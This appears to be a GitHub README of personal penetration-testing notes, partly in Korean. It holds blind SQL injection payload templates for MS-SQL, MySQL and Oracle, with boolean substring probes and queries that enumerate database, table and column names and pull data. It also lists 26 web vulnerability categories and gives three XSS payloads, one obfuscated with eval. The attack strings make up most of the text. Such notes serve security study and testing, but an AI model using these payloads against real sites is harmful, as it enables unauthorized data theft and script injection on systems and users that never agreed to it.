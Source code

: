 <h2>[MS-SQL]</h2> <br>
# Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
# get DB NAME <br>
db_name() <br>
<br>
# Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
# Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
# Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<h2>[MySQL]</h2> <br>
# Shape <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
# Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  
-----------------------------------------------------------------------------------
<h2>[Oracle]</h2> <br>
#Shape <br>
and (ascii(SUBSTR(select username from all_users where rownum = 1),1,1))) > 1

#Get DB name <br>
select DISTINCT owner FROM all_tables;

#Get Table name <br>
select table_name from all_tables;

#Get Column name <br>
select column_name from all_tab_columns where table_name='[table name]';


Row 갯수 파악

Limit 기능
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF<br>
`<img src="#" onmouseover="alert(1);">`<br>
`<img src="#" onerror="alert(1);">`<br>
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`<br>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
